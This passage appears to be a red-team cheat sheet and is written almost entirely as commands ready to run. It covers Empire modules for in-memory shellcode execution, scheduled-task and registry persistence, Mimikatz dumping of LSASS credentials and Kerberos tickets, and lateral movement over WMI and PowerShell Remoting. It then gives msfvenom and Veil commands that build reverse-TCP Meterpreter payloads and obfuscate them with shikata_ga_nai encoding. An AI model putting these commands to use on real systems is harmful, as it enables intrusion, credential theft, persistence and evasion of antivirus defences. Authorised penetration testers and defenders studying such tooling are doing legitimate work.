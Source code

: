 - **Invoke-Shellcode**:
  - Use encoded shellcode for in-memory execution.
  - **Command**:
    ```bash
    usemodule code_execution/invoke_shellcode
    set Listener http
    execute
    ```

### 🛠 Commonly Used Empire Modules

- **Persistence Modules**:
  - `persistence/schtasks` – Sets up scheduled tasks for persistence.
  - `persistence/registry` – Adds registry-based persistence.

- **Credential Harvesting**:
  - `credentials/mimikatz/lsass` – Dumps credentials from LSASS.
  - `credentials/mimikatz/kerberos` – Dumps Kerberos tickets for lateral movement.

- **Lateral Movement**:
  - `lateral_movement/invoke_wmi` – Uses WMI for remote command execution.
  - `lateral_movement/invoke_psremoting` – Utilizes PowerShell Remoting for lateral movement.

---

## 3. Obfuscation and Packing Cheat Sheet

### 🔒 Commands for Obfuscating Payloads

1. **msfvenom** (Metasploit):
   - **Basic Payload Generation**:
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o payload.exe
     ```
   - **Encode with shikata_ga_nai**:
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe
     ```

2. **Veil**:
   - **Setup**:
     ```bash
     veil
     ```
   - **Generate PowerShell payload**:
     ```bash
     use powershell/meterpreter/rev_tcp
     set LHOST <IP>
     set LPORT <PORT>
     generate
     ```
